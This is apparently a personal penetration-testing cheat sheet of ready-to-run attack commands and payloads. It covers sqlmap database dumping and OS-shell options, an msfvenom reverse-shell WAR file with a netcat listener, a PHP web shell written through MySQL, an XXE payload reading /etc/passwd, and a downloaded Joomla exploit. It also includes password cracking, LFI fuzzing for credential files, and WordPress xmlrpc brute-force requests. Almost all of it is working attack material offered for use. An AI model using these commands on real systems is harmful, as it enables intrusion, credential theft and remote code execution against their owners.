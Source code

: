 ## SQLMAP

sqlmap -u "http://10.17.32.212/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dump-all -p list[fullordering]

ghauri -u "http://www.abc.in/ErrorPage.aspx?enc=+AenvvvnbvntfgBByOwZTA==" --batch --dbs --level 3

python sqlmap .py -r Request.txt -p param --ignore-code 401 --level 5 --risk 2 --batch --os-shell  (for shell)

sqlmap -r request3.txt -p username,password --ignore-code 401 --proxy http://127.0.0.1:8080

sqlmap -u http://testsite.com/page.php?id=1 --dbs

sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> --dump-all

sqlmap -r request.txt --dbs --risk=3 --level=5    (To scan all parameters in the request)


#### If you found a blind sql or any sql then use this command:

sqlmap -r request3.txt -p username,password --ignore-code 401 --proxy http://127.0.0.1:8080 --dbs

#### Then if database are listed browse to them and list down tables:

sqlmap -r request3.txt -p username,password --ignore-code 401 --proxy http://127.0.0.1:8080 -D databasename --tables

#### Another set of commands

sqlmap -r request3.txt -p column_code,type  --ignore-code 401 --level 5 --risk 3 --force-ssl --mobile --dbs


### Windows command SQLmap

python sqlmap.py  -r C:\Users\Dell\Desktop\request3.txt -p username,emailid --ignore-code 401 --level 5 --risk 3 --force-ssl --mobile --batch --dbs 

python sqlmap.py  -r C:\Users\Dell\Desktop\request3.txt -p UserId,login_type --ignore-code 401 --proxy http://127.0.0.1:8080 -D users --tables

#### Using tamper script
python sqlmap.py  -r C:\Users\Dell\Desktop\request3.txt -p rowID --ignore-code 401 --level 5 --batch --tamper space2plus,space2comment,charencode

#### To browse through directories we use
python sqlmap.py  -r C:\Users\Dell\Desktop\request3.txt -p title,content,author --level 2 --ignore-code 401 -D abcde --tables

#### To browse through tables we use
python sqlmap.py  -r C:\Users\Dell\Desktop\request3.txt -p email --level 2 --ignore-code 401 -D abcde -T user_details --column

#### To dump the data
python sqlmap.py  -r C:\Users\Dell\Desktop\request3.txt -p email --level 2 --ignore-code 401 -D abcde -T user_details --column --batch --dump

### RCE (create exploit war file)

msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.6.29 LPORT=9999 -f war > shell.war 

nc -nlvp 9999    

### Shell upload using mysql (If web)
```
SELECT "<html><body><?php echo system($_GET['command']); ?></body></html>" into outfile "/usr/share/tomcat9-root/"
```

### Exploit SQLi along with cracking pass

python 46635.py -u http://10.10.146.189/simple/ --crack -w /usr/share/wordlists/rockyou.txt

### XXE Exploit
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
   <!ELEMENT data ANY >
   <!ENTITY name SYSTEM "file:///etc/passwd" >]>
<comment>
  <name>&name;</name>
  <author>DD</author>
  <com>Just Articles</com>
</comment>
```

## Directly Download exploit and run it

wget https://raw.githubusercontent.com/XiphosResearch/exploits/master/Joomblah/joomblah.py

python2.7 joomblah.py http://10.10.91.172

## Identify Hashes

hashes.com

nano hash

cat hash

#### Breaking Hash
john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash

## Open .bak Files (SQLite)

wget http://10.10.74.246/custom/js/users.bak

sqlitebrowser users.bak

## Directory Bruteforce Tools

gobuster dir -u https://google.in/abc/documents -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt (dir enum)
          
          gobuster dns -u google.com  (for finding subdomains)

dirsearch -u https://google.in/abc/ -w /usr/share/wordlists/rockyou.txt

####  403 Bypass tool

bash 403-bypass.sh -u https://abc.in/.htaccess --exploit

#### Fuzzing using LFI

wfuzz -c -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt http://49.186.149.89:8081/sh/download?file=../../../../../../../../../../../opt/tomcat/FUZZ/tomcat-users.xml | grep -v "0 L"

wfuzz -u http://10.10.136.136:5000/api/v2/resources/books?FUZZ=.bash_history -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404  (change v2 to v1 or vice versa to find hidden injectable endpoints)

## WordPress Pentesting

```
/wp-json/wp/v2/users
/xmlrpc.php
```
List all methods
```
<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>
```
Brute Force Attack
```
<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>admin</value></param>
<param><value>pass</value></param>
</params>
</methodCall>
```
XSPA Attack

```
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<YOUR SERVER >:<port></string></value>
</param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
</value></param></params>
</methodCall>
```

### WPScan Commands

wpscan –url IP_ADDRESS_OF_WEBSITE

wpscan –url IP_ADDRESS_OF_WEBSITE -e u  (enumerate users)

wpscan –url IP_ADDRESS_OF_WEBSITE -U USER_NAME -P /usr/share/wordlists/rockyou.txt (BFA)





